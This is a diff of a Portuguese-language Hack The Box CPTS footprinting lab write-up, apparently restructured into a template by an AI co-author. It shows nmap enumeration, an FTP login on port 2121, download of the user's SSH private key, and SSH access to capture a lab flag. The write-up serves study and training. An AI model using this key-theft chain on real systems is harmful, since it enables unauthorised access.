

Before and after one commit to thewzz/cpts-writeups, an MkDocs documentation site: the page built from docs/notes/footprinting/footprinting-tests-easy.md, in a window 1280 px wide and 1400 px high, scrolled down 1176 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Reestrutura writeup Footprinting Tests - Easy
Aplica o template de CTF ao log bruto: extrai IP/hostname, portas e
serviços, técnicas utilizadas, cadeia de ataque (FTP 2121 -> id_rsa ->
SSH), tentativas que falharam e flag. Sem inventar dados ausentes no log.

Co-Authored-By: Claude Fable 5 <noreply@anthropic.com>

````diff
--- a/docs/notes/footprinting/footprinting-tests-easy.md
+++ b/docs/notes/footprinting/footprinting-tests-easy.md
@@ -1,200 +1,205 @@
-# Footprinting Tests - Easy
+# 🏴️ Footprinting Tests - Easy
+
+> **Dificuldade:** Easy | **SO:** Linux | **Plataforma:** CPTS — Estudo de Footprinting
 
 !!! info "Sobre esta página"
-    Use esta página para registrar cada máquina ativa explorada no Hack The Box, com foco em enumeração, exploração, escalonamento de privilégios e lições aprendidas.
+    Writeup do laboratório de footprinting (máquina easy) do HackTheBox. Foco em
+    enumeração de serviços e obtenção de acesso inicial por reuso de chave SSH.
 
-## Informações gerais
+---
 
-- **Nome da máquina:**
-- **IP:**
-- **Sistema operacional:**
-- **Dificuldade:**
-- **Data de início:**
-- **Data de conclusão:**
-- **Status:** Finalizado
-- **Objetivo principal:**
-- **Tipo de máquina:**
-- **Ambiente:**
-- **Tags/Tecnologias:**
-- **Credenciais fornecidas:**
+## 📋 Informações Gerais
 
-## Enumeração inicial
+| Campo | Valor |
+|:------|:------|
+| **Hostname** | `NIXEASY` |
+| **IP** | `10.129.14.129` |
+| **SO** | Linux — Ubuntu 20.04.1 LTS |
+| **Dificuldade** | Easy |
+| **Plataforma / Módulo** | CPTS — Footprinting |
+| **Domínio interno** | `inlanefreight.htb` |
+| **Data** | 01/06/2026 |
+| **Status** | Finalizado |
 
-- [ ] Nmap rápido executado
-- [ ] Web fuzzing para descoberta de subdomínios
-- [ ] Nmap completo executado
-- [ ] Serviços identificados
-- [ ] Aplicações web verificadas
-- [ ] Diretórios/arquivos ocultos testados
-- [ ] Versões e banners registrados
-- [ ] Possíveis vulnerabilidades levantadas
+---
 
-## Resultados da enumeração
+## 🔍 Enumeração Inicial
+
+### Portas e Serviços Encontrados
+
+| Porta | Serviço | Versão / Banner |
+|:------|:--------|:----------------|
+| 21 | ftp | ProFTPD — `ftp.int.inlanefreight.htb` |
+| 22 | ssh | OpenSSH 8.2p1 Ubuntu |
+| 53 | domain | ISC BIND 9.16.1 |
+| 2121 | ftp | ProFTPD — *Ceil's FTP* |
+
+### Comando de Enumeração
+
+```bash
+sudo nmap -sS -sV --top-ports 1000 -T4 10.129.14.129
+```
+
+### Saída Relevante (evidência)
 
 ```shell
-─[us-academy-2]─[10.10.15.217]─[htb-ac-2219820@htb-zarjqkktbn]─[~]
-└──╼ [★]$ sudo nmap -sS -sV -top-ports 1000 -T4 10.129.14.129
-Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-01 15:11 EDT
-Nmap scan report for 10.129.14.129
-Host is up (0.0093s latency).
-Not shown: 996 closed tcp ports (reset)
 PORT     STATE SERVICE VERSION
 21/tcp   open  ftp?
 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
 53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
 2121/tcp open  ftp
-2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
-==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
-SF-Port21-TCP:V=7.95%I=7%D=6/1%Time=6A1DD950%P=x86_64-pc-linux-gnu%r(Gener
-SF:icLines,9C,"220\x20ProFTPD\x20Server\x20\(ftp\.int\.inlanefreight\.htb\
-SF:)\x20\[10\.129\.14\.129\]\r\n500\x20Invalid\x20command:\x20try\x20being
-SF:\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20m
-SF:ore\x20creative\r\n");
-==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
-SF-Port2121-TCP:V=7.95%I=7%D=6/1%Time=6A1DD950%P=x86_64-pc-linux-gnu%r(Gen
-SF:ericLines,8D,"220\x20ProFTPD\x20Server\x20\(Ceil's\x20FTP\)\x20\[10\.12
-SF:9\.14\.129\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20c
-SF:reative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creati
-SF:ve\r\n");
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
-Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
-Nmap done: 1 IP address (1 host up) scanned in 157.98 seconds
+# Fingerprints dos serviços nao reconhecidos:
+#  Port 21   -> 220 ProFTPD Server (ftp.int.inlanefreight.htb)
+#  Port 2121 -> 220 ProFTPD Server (Ceil's FTP)
+```
 
-### AQUI EU JA TENHO O ID_RSA QUE PEGUEI NO FTP 2121 DO CEIL ##
-─[us-academy-2]─[10.10.15.217]─[htb-ac-2219820@htb-zarjqkktbn]─[~]
+### Descobertas
+
+- [x] Servidor FTP secundário numa porta **não padrão (2121)** — "Ceil's FTP"
+- [x] Banner do FTP revela o **domínio interno** `inlanefreight.htb`
+- [x] SSH disponível (porta 22) → potencial reuso de chave
+
+---
+
+## 🎯 Técnicas Utilizadas
+
+| # | Técnica | Onde / Como foi aplicada |
+|:--|:--------|:-------------------------|
+| 1 | Enumeração de serviços (nmap) | Identificação do FTP na porta não padrão 2121 |
+| 2 | Acesso a FTP | Login no FTP 2121 como usuário `ceil` |
+| 3 | Exfiltração de chave privada SSH | Download de `id_rsa` de `~/.ssh/` via FTP |
+| 4 | Reuso de chave SSH | `ssh -i id_rsa ceil@alvo` → shell como `ceil` |
+| 5 | Localização da flag | Leitura de `/home/flag/flag.txt` |
+
+---
+
+## 🚀 Exploração / Acesso Inicial
+
+### Vetor de Entrada
+
+| Campo | Valor |
+|:------|:------|
+| **Vetor** | FTP (2121) → chave SSH exposta |
+| **Falha explorada** | Chave privada `id_rsa` acessível/baixável via FTP |
+| **Ferramentas** | nmap, ftp, ssh |
+| **Acesso obtido como** | `ceil` |
+
+!!! warning "Senha do FTP"
+    O login no FTP como `ceil` foi bem-sucedido (`230 User ceil logged in`), mas
+    **a senha utilizada não está registrada neste log**.
+
+### Processo
+
+```
+1. Enumerar portas → identificar FTP em 2121 (Ceil's FTP)
+2. Logar no FTP 2121 como ceil e navegar até .ssh/
+3. Baixar id_rsa (e authorized_keys, id_rsa.pub)
+4. chmod 600 id_rsa
+5. ssh -i id_rsa ceil@10.129.14.129 → shell como ceil
+```
+
+### Comandos-Chave
+
+```bash
+ftp ceil@10.129.14.129 2121
+# ftp> cd .ssh
+# ftp> get id_rsa
+# ftp> get authorized_keys
+# ftp> get id_rsa.pub
+
+chmod 600 id_rsa
+ssh -i id_rsa ceil@10.129.14.129
+```
+
+### Evidência — exfiltração da chave via FTP
+
+```shell
+ftp> cd .ssh
+250 CWD command successful
+ftp> ls
+-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
+-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
+-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
+ftp> get id_rsa
+local: id_rsa remote: id_rsa
+150 Opening BINARY mode data connection for id_rsa (3381 bytes)
+226 Transfer complete
+3381 bytes received in 00:00 (405.52 KiB/s)
+```
+
+### Tentativas que NÃO funcionaram
+
+- `nano` / `vi` / `vim authorized_keys` **dentro do cliente FTP** → `?Invalid command.`
+- `cd .profile` e `cd authorized_keys` → `550 ...: Not a directory`
+
+!!! tip "Lição"
+    O cliente FTP interativo não edita arquivos remotos — só transfere. O caminho
+    correto é `get` o arquivo e abri-lo localmente.
+
+---
+
+## 🐚 Shell e Pós-Acesso
+
+Acesso obtido como `ceil` via SSH com a chave exfiltrada (Ubuntu 20.04.1 LTS).
+
+### Usuários encontrados (`/home`)
+
+| Usuário | Observação |
+|:--------|:-----------|
+| `ceil` | usuário acessado |
+| `cry0l1t3` | presente em `/home` |
+| `flag` | diretório que contém a flag |
+
+### Credenciais / Chaves Encontradas
+
+| Tipo | Valor / Local |
+|:-----|:--------------|
+| Chave SSH privada | `id_rsa` baixado de `~/.ssh/` do `ceil` via FTP 2121 |
+
+### Evidência — acesso SSH e flag
+
+```shell
 └──╼ [★]$ chmod 600 id_rsa
-┌─[us-academy-2]─[10.10.15.217]─[htb-ac-2219820@htb-zarjqkktbn]─[~]
 └──╼ [★]$ ssh -i id_rsa ceil@10.129.14.129
 Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-90-generic x86_64)
+Last login: Wed Nov 10 05:48:02 2021 from 10.10.14.20
 
-  System information as of Mon 01 Jun 2026 07:38:21 PM UTC
-
-  System load:  0.0               Processes:               161
-  Usage of /:   86.7% of 3.87GB   Users logged in:         0
-  Memory usage: 12%               IPv4 address for ens192: 10.129.14.129
-  Swap usage:   0%
-
-Last login: Wed Nov 10 05:48:02 2021 from 10.10.14.20
-ceil@NIXEASY:~$ ls -la
-total 36
-drwxr-xr-x 4 ceil ceil 4096 Nov 10  2021 .
-drwxr-xr-x 5 root root 4096 Nov 10  2021 ..
--rw------- 1 ceil ceil  294 Nov 10  2021 .bash_history
--rw-r--r-- 1 ceil ceil  220 Nov 10  2021 .bash_logout
--rw-r--r-- 1 ceil ceil 3771 Nov 10  2021 .bashrc
-drwx------ 2 ceil ceil 4096 Nov 10  2021 .cache
--rw-r--r-- 1 ceil ceil  807 Nov 10  2021 .profile
-drwx------ 2 ceil ceil 4096 Nov 10  2021 .ssh
--rw------- 1 ceil ceil  759 Nov 10  2021 .viminfo
 ceil@NIXEASY:~$ cd /home/flag/
 ceil@NIXEASY:/home/flag$ cat flag.txt
 HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}
-
-## AQUI EH EU PEGANDO A ID_RSA DO FTP 2121 CEIL ##
-──╼ [★]$ ftp ceil@10.129.14.129 2121
-Connected to 10.129.14.129.
-220 ProFTPD Server (Ceil's FTP) [10.129.14.129]
-331 Password required for ceil
-Password:
-230 User ceil logged in
-Remote system type is UNIX.
-Using binary mode to transfer files.
-ftp> cd .ssh
-250 CWD command successful
-ftp> ls
-229 Entering Extended Passive Mode (|||60808|)
-150 Opening ASCII mode data connection for file list
--rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
--rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
--rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
-226 Transfer complete
-ftp> get id_rsa
-local: id_rsa remote: id_rsa
-229 Entering Extended Passive Mode (|||62465|)
-150 Opening BINARY mode data connection for id_rsa (3381 bytes)
-100% |***********************************|  3381        2.86 MiB/s    00:00 ETA
-226 Transfer complete
-3381 bytes received in 00:00 (405.52 KiB/s)
-ftp>
 ```
 
-Portas abertas: 21 (ftp), 22 (ssh), 53 (dns) e 2121 (ftp? Ceil's FTP).
+---
 
-## Exploração inicial
+## 🚩 Flags
 
-- **Vetor escolhido:**
-- **Falhas exploradas:**
-- **Ferramentas usadas:**
-- **Acesso inicial obtido como:**
-- **Observações:**
+- [x] Flag capturada
 
-```bash
-# Comandos principais da exploração
-smbclient -L //192.168.100.69 -N
-```
+| Flag | Local |
+|:-----|:------|
+| `HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}` | `/home/flag/flag.txt` |
 
-## Shell e estabilização
+!!! note
+    A flag foi obtida em `/home/flag/`. Não houve acesso a `/root` neste log —
+    portanto **não há root flag** registrada.
 
-- [ ] Reverse shell obtida
-- [ ] Shell estabilizada
-- [ ] Usuário identificado
-- [ ] Ambiente validado
+---
 
-```bash
-# Comandos para estabilização da shell
-```
+## 📖 Resumo Técnico
 
-## Enumeração pós-exploração
+| Campo | Valor |
+|:------|:------|
+| **Causa raiz** | Chave privada SSH exposta através de um serviço FTP acessível |
+| **Cadeia de ataque** | Enumeração (nmap) → FTP 2121 como `ceil` → download de `id_rsa` → SSH como `ceil` → flag em `/home/flag/` |
+| **Acesso final** | `ceil` (usuário) |
 
-- **Usuários encontrados:**
-- **Arquivos sensíveis:**
-- **Permissões incomuns:**
-- **Serviços internos relevantes:**
-- **Credenciais ou hashes localizados:**
+---
 
-```bash
-# LinPEAS / LinEnum / enumeração manual
-```
+## 💡 Lições Aprendidas
 
-## Escalonamento de privilégios
-
-- **Vetores identificados:**
-- **Técnica utilizada:**
-- **Resultado:**
-- **Acesso root/administrator:**
-
-```bash
-# Comandos de privilege escalation
-```
-
-## Flags
-
-- [ ] User flag capturada
-- [ ] Root/Admin flag capturada
-- **User flag:**
-- **Root/Admin flag:**
-
-## Evidências
-
-- Adicione aqui prints, trechos de saída, links e observações importantes.
-
-## Resumo técnico
-
-- **Causa raiz da exploração:**
-- **Cadeia de ataque resumida:**
-- **Pontos que mais exigiram atenção:**
-
-## Lições aprendidas
-
-- **O que funcionou bem:**
-- **O que atrasou a exploração:**
-- **Comandos para revisar depois:**
-- **Técnicas para estudar melhor:**
-
-## Próximos passos
-
-- [ ] Revisar exploração manual
-- [ ] Reproduzir sem anotações
-- [ ] Documentar writeup pessoal
-- [ ] Relacionar técnicas com módulos CPTS
+- **O que funcionou:** reuso da `id_rsa` exfiltrada do FTP para autenticar via SSH.
+- **O que atrasou:** tentar editar arquivos dentro do cliente FTP (`nano`/`vi`/`vim`) — não suportado.
+- **Comandos para revisar depois:** enumeração de serviços em **portas altas/não padrão** (o FTP relevante estava na 2121, não na 21).
+- **Técnicas para estudar melhor:** após obter qualquer acesso a arquivos, sempre conferir `~/.ssh/` por chaves privadas legíveis.
````
